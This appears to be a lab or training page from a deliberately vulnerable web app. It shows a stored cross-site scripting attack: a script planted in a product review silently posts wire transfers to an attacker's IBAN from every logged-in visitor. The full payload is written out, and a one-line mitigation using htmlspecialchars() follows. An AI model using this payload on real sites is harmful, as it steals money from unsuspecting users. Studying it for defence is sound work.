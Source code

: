 # Transfer funds to your account

This attack will exploit the reviews to transfer to you bank account an amount of money for each registered user that visits the homepage.

## Steps

- Register an user on the website and login
- Create a review and inject malicious javascript code 

    ```javascript
    <script>
        fetch('/wire-transfer.php', {
            method:'POST',
            headers: {
                'Content-Type': 'application/x-www-form-urlencoded'
            },
            body: 'iban=US1523100000054000784030479&amount=1&notes='
        })
    </script>
    ```
    
- Every time a logged in user visits the homepage, a dollar is transfered to your account

## Mitigation

Wrap the received message text in [htmlspecialchars()](https://www.php.net/manual/en/function.htmlspecialchars.php) function
